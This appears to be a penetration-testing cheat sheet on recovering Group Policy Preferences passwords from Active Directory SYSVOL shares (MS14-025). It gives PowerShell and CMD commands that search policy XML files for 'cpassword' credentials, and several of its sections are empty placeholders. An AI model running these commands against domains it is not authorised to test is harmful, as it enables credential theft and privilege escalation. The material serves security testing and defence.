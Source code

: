 ## [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

## [AD Hunting Passwords In SYSVOL](https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md)

## [Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)

## [Microsoft Security Bulletin MS14-025 - Important](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025)

> The vulnerability could allow elevation of privilege if Active Directory Group Policy preferences are used to distribute passwords across the domain - a practice that could allow an attacker to retrieve and decrypt the password stored with Group Policy preferences.

### Extensions
```
*.xml , *.vbs , *.bat etc.
```

### TL;DR
```

```

### PowerShell
```
dir $env:logonserver\sysvol

dir \\$env:USERDNSDOMAIN\sysvol
dir \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
findstr /S /I cpassword \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
```

### CMD
```
dir %logonserver%\sysvol

dir \\%USERDNSDOMAIN%\sysvol
findstr /S /I cpassword \\%USERDNSDOMAIN%\sysvol\%USERDNSDOMAIN%\policies\*.xml
```

### 
```

```

### Examples
```

```


### [%userdnsdomain% vs %logonserver%](https://www.reddit.com/r/sysadmin/comments/e01wot/userdnsdomain_and_logonserver_environment/?rdt=46812)
```
\\%logonserver%\sysvol\%userdnsdomain%
```

### 
```

```

### 
```

```

### 
```

```